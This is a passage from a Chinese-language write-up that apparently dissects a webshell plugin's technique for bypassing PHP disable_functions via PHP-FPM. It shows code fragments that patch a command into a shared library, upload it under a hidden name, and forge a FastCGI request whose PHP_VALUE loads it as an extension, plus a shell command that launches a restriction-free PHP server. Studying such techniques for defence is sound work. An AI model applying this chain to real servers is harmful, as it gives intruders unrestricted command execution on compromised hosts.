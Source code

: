 ```
/bin/sh -c php -n -S 127.0.0.1:60298-t /var/www/html
```  
  
  
先剧透一下，就是创建一个  
“裸”的php server  
  
具体一点来讲，**流程如下**  
  
使用 fs.readFileSync 方法读取 ext 路径下的文件（so or dll文件）到 fileBuff 中。  
  
将cmd命令插入到硬编码的起始和结束位置。  
  
检查cmd命令长度是否超过预留的区域，不超过在文件的指定位置写入命令（因为cmd命令是固定的，所以一般不会超过该长度，预留区域就是ida反编译里comand那一块空白的地方）。  
  
最后返回的文件包含原始的共享库内容和新插入的命令。  
  
3，上传.so  
  
```
// 上传 .so 文件
new Promise((res, rej) => {
    var ext_path = `${wdir}/.${String(Math.random()).substr(2, 5)}${self.ext_name}`;
    core.request(
        core.filemanager.upload_file({
            path: ext_path,
            content: fileBuffer
        })
    )
    // ... 后续 Promise 链
});
```  
  
  
4，加载上传的.so文件并发生fastcgi请求  
  
```
// 构造 FastCGI 请求并发送到 PHP-FPM
var payload = `${FastCgiClient()};
$content="";
$client = new Client('${fpm_host}',${fpm_port});
$client->request(array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD' => 'POST',
    'SERVER_SOFTWARE' => 'php/fcgiclient',
    'REMOTE_ADDR' => '127.0.0.1',
    'REMOTE_PORT' => '9984',
    'SERVER_ADDR' => '127.0.0.1',
    'SERVER_PORT' => '80',
    'SERVER_NAME' => 'mag-tured',
    'SERVER_PROTOCOL' => 'HTTP/1.1',
    'CONTENT_TYPE' => 'application/x-www-form-urlencoded',
    'PHP_VALUE' => 'extension=${p}',
    'PHP_ADMIN_VALUE' => 'extension=${p}',
    'CONTENT_LENGTH' => strlen($content)
    ),
    $content
);
```  
  